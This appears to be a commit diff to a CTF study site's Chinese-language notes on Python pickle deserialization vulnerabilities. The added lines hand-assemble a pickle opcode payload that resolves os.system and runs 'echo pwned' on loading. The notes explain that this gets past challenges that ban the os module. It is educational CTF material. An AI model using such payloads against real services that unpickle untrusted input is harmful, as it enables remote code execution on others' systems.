

Before and after one commit to Min-2233/Min-2233.github.io, a Jekyll site: the page built from ctf/web/menu/python安全/python反序列化漏洞.md, in a window 1280 px wide and 900 px high, scrolled down 2689 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update python反序列化漏洞.md

````diff
--- a/ctf/web/menu/python安全/python反序列化漏洞.md
+++ b/ctf/web/menu/python安全/python反序列化漏洞.md
@@ -71,7 +71,18 @@ print(base64.b64encode(pickle.dumps(RCE())))
 # 手写 opcode
 因为 pickle.dumps 记录的模块名和生成环境绑定，os 只是外壳，os.system 实际属于平台模块。在Windows 上是 nt 模块，而Linux 上是 posix。有些题目会禁用os，那这时候可以用它其他的模块名进行绕过，但在使用脚本的时候，我没法指定生成os这个模块的其他模块名，所以这时候就需要手写opcode了
 
+```python
+import pickle, pickletools
 
+payload = (b"Vos\n"          # 压入 'os'
+           b"Vsystem\n"      # 压入 'system'
+           b"\x93"           # STACK_GLOBAL -> os.system
+           b"(S'echo pwned'\n"
+           b"tR.")
+pickletools.dis(payload)     # 检查每条指令是否符合预期
+pickle.loads(payload)        # 本地验证
+```
+当然，不用脚本自己手动拼成一个字符串也可以b"Vos\nVsystem\n\x93(S'echo pwned'\ntR."
 
 # pickle opcode 对照表（protocol 0）
 
````
